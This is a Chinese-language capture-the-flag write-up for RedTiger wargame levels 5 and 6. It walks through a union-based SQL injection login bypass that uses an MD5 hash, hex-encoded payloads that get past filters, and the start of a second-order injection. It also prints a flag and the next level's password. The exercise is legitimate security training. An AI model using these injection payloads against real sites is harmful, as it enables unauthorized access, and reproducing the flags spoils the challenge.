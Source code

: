 > Target: Bypass the login
> Disabled: substring , substr, ( , ), mid
> Hints: its not a blind, the password is md5-crypted, watch the login errors

不能进行盲注。那就先输入`admin`用户和随便一个密码，显示
> Some things are disabled!!

看来`admin`这个词给过滤掉了。

然后测试 `username` 是否存在注入点，输入`'`。
> Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/html/hackit/level5.php on line 46
> User not found!

很好，然后熟练得测试出回显字段，得到2个回显字段。`' union select 1,2#`。这时显示的错误为 
> Login failed!
说明我们绕过了 `username` ，接下来对 `	password` 进行测试。

题目说 `password` 经过了 md5 加密，而且还过滤了 `(` 与 `)` 两个字符。 因此将 `password` 值为1，并对字符串'1' 进行md5加密，MD5('1')='c4ca4238a0b923820dcc509a6f75849b'。
测试到底是 select 的1位置用md5加密还是2位置用md5加密。
```
username= ' union select 1,'c4ca4238a0b923820dcc509a6f75849b'#
password=1
```
可以得到结果
> You can raise your wechall.net score with this flag: ca5c3c4f0bc85af1392aef35fc1d09b3
> The password for the next level is: for_more_bugs_update_to_php7




## level 6

```
curl 'http://redtiger.labs.overthewire.org/level6.php?user=1' -H 'Cookie:  level6login=for_more_bugs_update_to_php7'
```

可以用常规注入对url参数 `user=1`进行注入测试。但是测试回显字段时，未回显。
```
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,2,3,4,5%23
```
报错
	
	User not found
	Login failed! 

而得到user的username为 `deddlef` 。
```
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,2,3,4,5%23
```
	
	Username: 	deddlef
	Email: 	dumbi@damibi.de

可以用 `'deddlef'` 替换 `union select 1,2,3,4,5%23` 中的各个回显位置。还是报错。服务器应该过滤了 `'`。
用16进制 `0x646564646c6566` 继续替换查找，当替换 `2` 时，得到正确的回显结果。
那么可以怀疑后台先根据 `id` 查找 `username`，再根据 `username` 再次去查找 user信息的，我们可以利用 第二个回显位置进行进一步注入测试，但是要用16进制表示。
**二次注入**
